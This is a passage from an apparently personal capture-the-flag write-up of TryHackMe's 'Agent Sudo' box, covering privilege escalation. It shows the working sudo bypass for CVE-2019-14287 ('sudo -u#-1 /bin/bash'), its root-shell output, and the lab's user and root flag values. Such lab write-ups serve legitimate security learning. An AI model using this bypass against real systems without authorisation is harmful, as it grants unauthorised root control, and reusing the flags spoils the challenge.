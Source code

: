 Now for the privilege escalation part, I checked for sudo permissions of james.

```bash
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
james@agent-sudo:~$ 
```

I searched about the allowed commands online, and found this [page on exploit-db](https://www.exploit-db.com/exploits/47502) that also mentioned the CVE number for this exploit: **CVE-2019-14287**.

I then used the command from the exploit mentioned in the above exploit-db page, `sudo -u#-1 /bin/bash`, which just gave root access! Below shows how I got the root flag!

```bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# ls /root
root.txt
root@agent-sudo:~# cat /root/root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
root@agent-sudo:~# 

```

The footnote in the text file in root folder mentions the name `DesKel`. That would be the bonus answer, the name of Agent R.

### User flag - b03d975e8c92a7c04146cfa7a5a313c7

### Root flag - b53a02f55b57d4439e3341834d70c062